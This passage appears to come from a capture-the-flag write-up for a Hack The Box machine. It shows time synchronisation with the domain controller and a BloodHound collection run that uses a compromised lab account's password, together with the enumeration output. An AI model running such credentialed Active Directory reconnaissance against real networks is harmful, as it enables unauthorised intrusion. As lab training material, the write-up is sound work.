 Now, we need to syncronize the server time. 

```
┌──(root㉿kali)-[/home/kali]
└─# ntpdate -u freelancer.htb 
2024-06-06 09:45:20.815434 (-0400) +17631.477286 +/- 0.038578 freelancer.htb 10.10.11.5 s1 no-leap
CLOCK: time stepped by 17631.477286
```

17631.477286 seconds is around 5 hours. So, I ran:

```
┌──(root㉿kali)-[/home/kali]
└─# faketime -f +5h bloodhound-python -c ALL -u lorra199 -p 'PWN3D#l0rr@Armessa199' -d freelancer.htb -ns 10.10.11.5
INFO: Found AD domain: freelancer.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.freelancer.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.freelancer.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 13 computers
INFO: Connecting to LDAP server: dc.freelancer.htb
INFO: Found 30 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: SetupMachine.freelancer.htb
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: Datacenter-2019
INFO: Querying computer: DC.freelancer.htb
WARNING: Could not resolve: Datacenter-2019: The resolution lifetime expired after 3.104 seconds: Server Do53:10.10.11.5@53 answered The DNS operation timed out.
INFO: Done in 00M 17S
```

This generated json files in the directory where we ran the command. This will be the file we will upload it to bloodhound and enumerate it to find path to root.
